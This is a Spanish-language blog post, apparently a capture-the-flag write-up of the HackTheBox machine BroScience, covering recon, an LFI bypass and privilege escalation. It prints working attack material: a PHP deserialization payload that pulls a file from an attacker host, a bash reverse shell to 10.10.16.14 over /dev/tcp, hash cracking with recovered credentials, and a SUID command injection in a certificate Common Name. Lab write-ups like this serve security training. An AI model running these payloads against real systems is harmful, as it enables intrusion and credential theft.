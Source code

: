 ```yaml
---
layout: post
title: "Write Up BroScience. "
subtitle: "Starting-Point"
category: Blog
tags: [Medium,Chunin,Linux,HTB,Write-Up-Machine,eWPT,eJPTv2] 
image:
  path: /assets/img/broscience/Captura%20de%20pantalla%20(298).png
---
```


***
<!--more-->

1. this ordered seed list will be replaced by the toc
{:toc}

***

## Reconnaissance


### nmap


```bash
nmap -p- --open --min-rate 5000 -n -vvv -Pn 10.10.11.195 -oA allports
```


![list](/assets/img/broscience/AWESOMW-2023-01-12-00-22-25.png){:.lead width="800" height="100" loading="lazy"}

***

### Services and Versions


```bash
nmap -p22,80,443 -sV -sC 10.10.11.195 -oN target
```


![list](/assets/img/broscience/AWESOMW-2023-01-12-00-25-34.png){:.lead width="800" height="100" loading="lazy"}


***

## Vulnerability Analysis


### HTTP TCP-80


Uso de Investigacion web, Google Hacking,Google Dorks y recopilación de información gracias a servicios de terceros.e ispeccionamos la web, ademas de las tecnologias de la ip ataves de la terminal o via  web esto lo hacemos con wapalizzer o whatweb.


![list](/assets/img/broscience/AWESOMW-2023-01-12-00-28-14.png){:.lead width="800" height="100" loading="lazy"}


Whatweb nos  esta aplicando un reirerct al dominio `broscience.htb` por lo que lo ingresamos al `/etc/hosts`.


Tambien podemos fuzzear los directorioso con nmap antes de usar otros fuzzers mas completos para ver que informacion nos entrega.


![list](/assets/img/broscience/AWESOMW-2023-01-12-00-30-57.png){:.lead width="800" height="100" loading="lazy"}


Inspeccionamos la web a ver que nos encontramos, cave que estamos en https es edecir en el pueto 443 por o que deberemos aceptar los certificados autofirmados.


![list](/assets/img/broscience/AWESOMW-2023-01-12-00-31-20.png){:.lead width="800" height="100" loading="lazy"}


![list](/assets/img/broscience/AWESOMW-2023-01-12-00-34-25.png){:.lead width="800" height="100" loading="lazy"}


Con burpsuite vamos a tratar de explotar alguna vulnerabilidades entre ellas la de local file inclusion pero la web lo detecta como atacke y no nos lo permite haci que vamos a tratar de bypassear.


![list](/assets/img/broscience/AWESOMW-2023-01-12-00-34-25.png){:.lead width="800" height="100" loading="lazy"}


Para bypasear debemos urlencodear dos veces.


![list](/assets/img/broscience/AWESOMW-2023-01-12-00-50-45.png){:.lead width="800" height="100" loading="lazy"}


En la pagina hay un formulario para registrarnos pero, no podemos activarlo para eso vamos a utilizar burpsuite porque al momento que nos registramos se crea con la hora y fecha de eso nos aprovecharemos.


![list](/assets/img/broscience/AWESOMW-2023-01-12-01-23-56.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
La fecha es martes doce de enero del 2023.


Por lo que vamos a crear un script que se encargue de buscar los recursos sincronizado con la fecha de creacion del usuario asi como se van a mostrar los datos La fecha es martes doce de enero del 2023..


```shell
<?php
$chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890";
srand(strtotime("Thu, 12 Jan 2023 06:23:52 GMT"));
$activation_code = "";
for ($i = 0; $i < 32; $i++) {
    $activation_code = $activation_code . $chars[rand(0, strlen($chars) - 1)];
}
echo $activation_code;
?>
```


{:.note}
Editar `srand` por vuestros datos esto nos dara un codigo `TgwM7M253W5gRUJLvLeqUItOoyTialHL`.


![list](/assets/img/broscience/AWESOMW-2023-01-12-00-59-48.png){:.lead width="800" height="100" loading="lazy"}


![list](/assets/img/broscience/AWESOMW-2023-01-12-01-29-34.png){:.lead width="800" height="100" loading="lazy"}


Para activarlo, debemos interceptar con bursuite y pegar el codigo en el campo `GET/activated.php?code=TgwM7M253W5gRUJLvLeqUItOoyTialHL` y recargar.


![list](/assets/img/broscience/Captura%20de%20pantalla%20(319).png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Podemos hace lo mismo con otras rutas en este caso obtenemos credenciales de la base de datos `broscience` , el usuario es `dbuser` y la password es `RangeOfMotion%777`.


Tambien encontramos las `clases Avatar` y `AvatarInterface` que guardan archivos localmente y si  modificamos la variable `tmp` e `imgPath` para que apunte a nuestro equipo, para finalmente serializar la data, quedaria un script como el siguiente.


```bash
<?php
class Avatar {
    public $imgPath;

    public function __construct($imgPath) {
        $this->imgPath = $imgPath;
    }

    public function save($tmp) {
        $f = fopen($this->imgPath, "w");
        fwrite($f, file_get_contents($tmp));
        fclose($f);
    }
}

class AvatarInterface {
    public $tmp = "http://10.10.16.14/pwned.php";
    public $imgPath = "./pwned.php";

    public function __wakeup() {
        $a = new Avatar($this->imgPath);
        $a->save($this->tmp);
    }
}

$payload = base64_encode(serialize(new AvatarInterface));
echo $payload;
?>
```


Al ejecutar el php nos dará una data serializada que usaremos como cookie ademas debemos pero para eso tambien crear un archivo .php para otorgarnos un reverse-shell y montarnos un servidor con python sudo `python3 -m http.server 80`.


```bash
<?php
    system("bash -c 'bash -i >& /dev/tcp/10.10.16.14/443 0>&1'")
?>
```


Contodo esto nos dara la cookie que podemos poner en nuestro buscador tenemos iniciada sesión cambiamos nuestra cookie por el payload generado.


![list](/assets/img/broscience/Captura%20de%20pantalla%20(320).png){:.lead width="800" height="100" loading="lazy"}
En este puto otra ves de bemos tener un servidor activo y tambien debemos estar a la escucha en el puerto 44e con netcat.


Aunque somos www-data aun no podemos ver la flag del usuario de bajos privilegios asique debemos hacer user-pivoting para convertirnos ene otro asi que podemos trarar con la base de datos con psql usando las credenciales.


```bash
psql -h localhost -d broscience -U dbuser -P RangeOfMotion%777
```

{:.note}
Encontramos algunos hashes que gusrdaremos en un archivo que vamos atratr de crackear con john.


Podemos intentar romper los hashes pero tenemos que agregar el salt al inicio de cada linea.


```bash
sed 's/^/NaCl/' /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt > newrockyou.txt
```



```bash
john -w:newrockyou.txt hashes --format=Raw-MD5
```


{:.note}
Obtenemos tres ccredenciales `NaCliluvhorsesandgym (bill)`,`NaClAaronthehottest (dmytro)` y `NaCl2applesplus2apples (michael)`.


Si usamos las credenciales de bill quitandole el salt nos podemos conectar por SSH.


```bash
sshpass -p 'iluvhorsesandgym' ssh bill@10.10.11.195
```


{:.note}
Ya podemos buscar la flag de bajos privileguios en el escritorip del usuario `bill`. 


***

## Explotation and Escalation Privileges


Siempre es bueno ejecutar `LimEnum` Y `pspy` para monitorizar y ver los posibles vectores para escalar de privilegios, ademas hasta que se ejecute los anteriores podemos buscar los permisos con el comado find o tareas crond o tareas que esperen ejecucion y root ejecuta un script con un certificado como argumento.


![list](/assets/img/broscience/AWESOMW-2023-01-12-01-08-59.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Inspeccionando el script podemos generar uno dejando todos los campos vacios pero en el Common Name ejecutar un comando.


```bash
openssl req -x509 -sha256 -nodes -newkey rsa:4096 -keyout broscience.key -out broscience.crt -days 1
```


Podemos dale enter a todo los campos execto el` Common Name (e.g. server FQDN or YOUR name) []:` aqui es donce le metemos el comando para que la bash tenga permisos SUID con `$(chmod u+s /bin/bash)`.


{:.note}
Lo ultimo hacer bash -p y buscar la flag de superusuario en el escritorio de root.

***

```shell
🎉 Felicitaciones ya has comprometido BroScience de HackTheBox 🎉
```
{:.centered}
***

Back to [Certification eJPTv2](2023-07-03-Road-to-eJPTv2.md){:.heading.flip-title}
{:.read-more}

***

Back to [Certification OSEP](2022-09-12-Beginner-Track.md){:.heading.flip-title}
{:.read-more}